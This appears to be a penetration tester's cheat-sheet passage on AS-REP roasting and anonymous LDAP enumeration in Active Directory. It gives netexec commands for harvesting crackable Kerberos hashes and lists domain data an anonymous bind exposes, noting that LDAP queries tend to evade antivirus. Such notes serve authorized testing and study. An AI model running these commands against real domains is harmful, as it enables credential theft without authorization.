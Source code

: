 
#### ASReproasting
- always check for NULL sessions (EASY win) 
```bash
netexec ldap $IP -u '' -p '' --asreproast asrep.txt
```


**_NOTE:This lets me know that the guest account is disabled._**

```bash
netexec ldap $IP -u guest -p '' --asreproast asrep.txt
```

- authenticated
```bash
netexec ldap $IP -u 'USER' -p 'PASS' --asreproast asrep.txt
```


#### Using LDAP anonymous bind to enumerate further:

- If you are unsure of what anonymous bind does. It enables us to query for domain information anonymously, e.g. without passing credentials.
    
    - We can actually retrieve a significant amount of information via anonymous bind such as:
        - A list of all users
        - A list of all groups
        - A list of all computers.
        - User account attributes.
        - The domain password policy.
        - Enumerate users who are susceptible to AS-REPRoasting.
        - Passwords stored in the description fields
    - The added benefit of using ldap to perform these queries is that these are most likely not going to trigger any sort of AV etc as ldap is how AD communicates.
- I actually have a handy script to check if anonymous bind is enabled & if it is to dump a large amount of information. You can find it here
    
    - [https://github.com/bloodstiller/ldapire](https://github.com/bloodstiller/ldapire)
